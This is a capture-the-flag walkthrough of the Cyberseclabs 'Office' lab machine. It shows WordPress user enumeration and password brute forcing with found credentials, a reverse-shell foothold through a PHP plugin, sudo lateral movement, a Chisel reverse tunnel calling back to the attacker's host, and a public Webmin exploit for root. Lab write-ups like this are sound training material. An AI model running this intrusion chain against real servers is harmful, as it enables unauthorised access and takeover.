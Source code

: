 In this walkthrough, we'll go over one of the machines called ***Office*** from the challenge labs on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).

![Office IP](officeIP.png)

Let's start the scanning process with nmap:
```bash
nmap -sTV -p- -n 172.31.3.1
```
We'll see that there are three ports open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-29 11:58 EDT
Nmap scan report for 172.31.3.1
Host is up (0.057s latency).

PORT      STATE    SERVICE          VERSION
22/tcp    open     ssh              OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:3f:6c:4e:6d:8b:dc:59:b7:cb:66:64:27:f9:22:86 (RSA)
|   256 ee:be:37:f3:75:4e:38:2a:a9:99:e0:18:1a:b8:d1:41 (ECDSA)
|_  256 7f:72:a7:29:be:30:9e:5e:aa:b9:fc:be:09:d2:8b:3a (ED25519)
80/tcp    open     http             Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.4.1
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Dunder Mifflin &#8211; Just another WordPress site
443/tcp   open     ssl/http         Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=office.csl/organizationName=Dunder Mifflin/stateOrProvinceName=PA/countryName=US
| Not valid before: 2020-05-08T20:01:51
|_Not valid after:  2021-05-08T20:01:51
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
10000/tcp filtered snet-sensor-mgmt
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.52 seconds

```
Let's add this to our /etc/hosts file as follows:
```bash
172.31.3.1 office.csl
```
It looks like a WordPress site is being served on port 80:
![Office WP](office-index-html.png)

Since this is a WordPress site, we can use wpscan to scan all the plugins with `wpscan --url http://office.csl --enumerate ap --plugins-detection aggressive --max-threads 50`
![WP Plugin Scan](office-wpscan.png)

Previously, I tried to exploit the plugin ***wp-file-manager***, but that didn't go anywhere. Now, we can perform a user enumeration with the following `wpscan --url http://office.csl --enumerate u`
![WP User Enum](office-wpscan-userenum.png)

It looks like we have a user called ***dwight*** and we can try to brute force the login with this user name and the wordlist of rockyou.txt `wpscan --url http://office.csl --passwords /usr/share/wordlists/rockyou.txt --usernames dwight`
![WP Bruteforce](office-wpscan-bruteforce.png)

We have a successful hit so the found creds are:

Username | Password
--------- | ---------
dwight | cowboys1

By using the above credentials, we can successfully log into the admin panel. However, we need to download and install ***php_everywhere*** plugin for this machine. After installing the plugin, let's add a new page and then copy the PHP reverse shell from ![Pentestmonkey GitHub Repo](https://github.com/pentestmonkey/php-reverse-shell) into the PHP Everywhere text box (don't forget to change the IP address and port to yours) and type "php_everywhere" in the body of the page:
![PHP Everywhere Reverse Shell](office-php-everywhere.png)
![PHP Everywhere Page Preview](office-wpscan-php_everywhere.png)

Now, start a revershell and in the WordPress site, hit "Preview". We should receive a shell back:
![Office Foothold](office-intialfoothold.png)

It looks like we are www-data and we need to perform a lateral movement to become dwight user so let's look at `sudo -l` which shows that we can run bash as dwight:
![Office Sudo -l](office-wwwdata-sudo-l.png)

We can run the following script to become dwight `sudo -u dwight /bin/bash`:
![Office Dwight](office-dwight.png)

From here, there are a few things that I check manually such as locally open ports with `netstat -tulpn`:
![Office Open Ports](office-netstat.png)

It looks like the port 10000 is open so we can forward this port back to our local Kali machine with [Chisel](https://github.com/jpillora/chisel)
1. On Kali, I started a chisel server: `./chisel_1.7.6_linux_amd64 server -p 1111 --reverse` ![Chisel Server](office-chisel-server.png)
2. On the target, I started a chisel client: `./chisel_1.7.6_linux_amd64 client 10.10.0.18:1111 R:9050:127.0.0.1:10000` ![Chisel Client](office-chisel-client.png)

When we visit http://127.0.0.1:9050/session_login.cgi, I see that Webmin is running:
![Office Webmin](office-webmin.png)

At this point, we can use Metasploit to exploit Webmin server, but let's do it manually without Metasploit. 

We can clone the following GitHub repo from https://github.com/MuirlandOracle/CVE-2019-15107 and just run the exploit as shown below:

![Office Root](office-manual-webmin.png)
